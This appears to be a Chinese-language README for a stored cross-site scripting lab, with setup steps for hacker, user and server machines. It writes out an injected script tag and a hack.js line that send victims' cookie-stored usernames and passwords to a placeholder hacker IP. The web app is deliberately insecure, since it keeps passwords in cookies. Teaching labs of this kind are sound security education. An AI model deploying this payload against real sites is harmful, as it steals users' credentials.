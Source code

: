 # 跨站式脚本攻击（XSS attack) 实验

# 支持的操作系统
Windows, Linux
# 需要软件
Apache HTTP Server, MySQL, PHP 7.0
# 安装细节
本实验需要三部电脑以模仿Hacker, 正常用户和服务器。
在这实验中， Hacker需要安装 Apache和PHP, 而服务器三个软件都需要安装。
对于Windows, 把代码放到 Apache 的 DocumentRoot: C:\Apache24\htdocs
对于Linux，把代码放到 Apache 的 DocumentRoot: /var/www/html/
Hacker 和服务器的代码分别在 hack 和 webserver文件夹里。
然后， 在webserver/databaseAuth.txt 需要隔行分别提供MySQL的用户名和密码
然后，在/hack/hack.js里需要把代码进行修改：script.src = 'http://#在这里写hacker的IP地址#/index.php?username=' + username + '&password='+password;
# 实验过程
我门设定了用户 hacker 和他的密码位：78539816, 正常用户 jim123 和他的密码位：12345678 (这些可在createDatabase.sql 修改）
每当用户登入到网站，服务器将会在cookies里记录用户名和密码。
首先， hacker在登入了网页后，在论坛的评论输入区输入恶意代码： <script type = "text/javascript" src = "http://#在这里写hacker的IP地址#/hack.js"></script>
，并注入到数据库里。这样，恶意代码只要数据库管里员一日没有发现，恶意代码将会永远存储在数据库。。每当正常用户
在论坛里登入后再发评论，会显示到其他用户的评论，而在此时恶意代码将会执行，并把存放在正常用户客户端的Cookies发到Hacker，从而Hacker得到用户名和密码。
